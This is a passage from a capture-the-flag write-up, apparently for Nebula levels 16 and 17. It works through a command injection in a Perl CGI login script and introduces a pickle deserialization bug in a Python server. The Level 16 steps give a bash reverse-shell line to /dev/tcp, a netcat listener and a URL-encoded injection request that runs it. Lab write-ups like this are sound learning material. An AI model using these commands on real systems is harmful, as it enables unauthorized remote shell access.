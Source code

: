 ```perl
                return 1;
            }
        }

        return 0;
    }

    sub htmlz {
        print("Login resuls");
        if($_[0] == 1) {
            print("Your login was accepted");
        } else {
            print("Your login failed");
        }    
        print("Would you like a cookie?\n");
    }

    htmlz(login(param("username"), param("password")));
```
    
> egrep: this command searches for a pattern using extended regular expressions, and returns all the lines matching that pattern.

1. The injection vulnerability in this program is where the `egrep` command is called. We need to properly close that command and append our own to get a system call to `getflag`. However, the input is partially sanitized, by making all of it uppercase and trimming it after the fisrt space.
2. We can't call any useful command given the sanitization on the input, but what we can do is put those commands in a file with a name that is accepted by the sanitizatoin, and that access that file. To do this, the file name should be completely uppercase without spaces. We can put it in the tmp folder, and then access it using a wildcard, like `/*/FLAG16`.
3. The content of our file whould be a reverse tcp to which we can connect. The instruction goes like this: `bash -i >& /dev/tcp/[HOST IP]]/8000 0>&1`. This will spawn an interactive bash shell and pipe its input and output to a socket connected to our host. Give it running permissions with `chmod +x [filename]`
4. On the host we start netcat so that we can listen and connect to our shell: `nc -nlp 8000`
5. What is left to do is connecting to the server with the proper request so that our script will be invoked and we get the connection on the netcat listener. We know that the server is expecting a request to index.cgi with two parameters: username and password. Username is what we are interested in, so we put our URL encoded script path in there: `wget "[VM IP]:1616/index.cgi?username=%60%2F%2A%2FFLAG16%60&password=asdf"`
6. This request should stay open, and if you switch to the netcat listener there should be a shell with flag16 as user open and waiting for the `getflag` command. After executing it, as soon as you leave the shell also the wget request should end successfully.

### [Level 17]
There is a python script listening on port 10007 that contains a vulnerability.

```python
import os
import pickle
import time
import socket
import signal

signal.signal(signal.SIGCHLD, signal.SIG_IGN)

def server(skt):
    line = skt.recv(1024)

    obj = pickle.loads(line)

    for i in obj:
        clnt.send("why did you send me " + i + "?\n")

```